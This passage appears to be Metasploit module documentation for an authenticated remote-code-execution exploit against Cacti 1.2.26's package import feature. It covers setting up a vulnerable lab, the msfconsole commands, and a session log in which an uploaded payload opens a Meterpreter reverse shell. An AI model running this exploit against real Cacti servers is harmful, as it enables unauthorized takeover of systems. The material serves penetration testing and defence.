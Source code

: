 Note that other versions can be installed this way by changing the `tar` file name in `Dockerfile` (`cacti-1.2.26.tar.gz`).


### Cacti on Windows
Download and run a Cacti installer from
[here](https://files.cacti.net/cacti/windows/Archive/). The `admin` password
should be put in a file called `Cacti-Passwords.txt` by the installer, which is
in the same location the installer was run.
Follow the same installation steps as for the Docker installation.


### Setup a new user
- Login with the `admin` user (password: `admin`)
- Go to `Configuration` > `Users`
- Click on the `+` sign
- Enter the `User Name`, `Password` and check the `Enabled` option.
- Click `Create`
- Go to the `Permissions` tab and set the `Import Templates` permission in `Template Editor`
- Click `Save`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use multi/http/cacti_package_import_rce`
1. Do: `set target <target>`
1. Do: `run rhost=<target address> rport=<target port> lhost=<local address> username=<username> password=<password>`
1. You should get a shell.

## Options

### USERNAME
The user to login with (default `admin`).

### PASSWORD
The password to login with (default `admin`)


## Scenarios

### Cacti version 1.2.26 on Docker installation
- Target 0 (PHP)
```
msf6 exploit(multi/http/cacti_package_import_rce) > exploit verbose=true rhosts=127.0.0.1 rport=8080 lhost=192.168.101.1 username=msfuser password=12345678

[*] Started reverse TCP handler on 192.168.101.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
[*] Triggering the payload
[*] Sending stage (39927 bytes) to 192.168.101.1
[+] Deleted /var/www/html/cacti/resource/jGbP1O.php
[*] Meterpreter session 1 opened (192.168.101.1:4444 -> 192.168.101.1:62197) at 2024-05-22 15:28:24 +0200
```